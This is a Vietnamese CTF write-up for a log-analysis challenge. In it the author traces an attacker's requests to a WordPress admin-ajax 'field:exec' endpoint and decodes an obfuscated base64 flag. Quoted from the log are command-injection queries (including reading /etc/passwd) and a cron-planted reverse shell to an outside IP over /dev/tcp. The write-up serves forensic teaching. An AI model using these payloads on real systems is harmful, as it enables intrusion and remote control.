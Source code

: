 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: log log log
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Solution
### Bước 1: Phân tích hành vi bất thường
- Duyệt qua file log, tôi phát hiện một số IP đáng ngờ, đặc biệt là 82.179.92.206, liên tục gửi các truy vấn lạ tới endpoint:

```bash
/wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:...
```

- Chức năng exec cho phép thực thi lệnh hệ thống — một dấu hiệu cực kỳ nguy hiểm!
- Ví dụ lệnh:

```h
...&field=field:exec:id:NULL:NULL
...&field=field:exec:cat /etc/passwd:NULL:NULL
```

- Attacker đang thử các lệnh để thăm dò hệ thống.

### Bước 2: Payload Reverse Shell đáng chú ý
- Tại dòng 11477, có một dòng payload rất đặc biệt:

```bash
echo "sh -i > /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect
```
- Lệnh này tạo reverse shell, gửi kết nối ngược về attacker thông qua một cron job, rất xảo quyệt.
- Nhưng thú vị hơn cả là phần sau của payload:

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;
echo $Mz$Tz$Vz$az$Kz$Oz | base64 -d | rev
```

- Các biến này được ghép lại, base64 decode, rồi đảo ngược (rev). Như một dạng mini-obfuscation để che giấu dữ liệu.

### Bước 3: Giải mã payload

1. Ghép lại biến:

```bash
fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI
```

2. Base64 decode:

```bash
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```

3. Reverse:

```bash
HTB{L0g_@n4ly5t_4_bEg1nN3r}

>> Command: echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d | rev

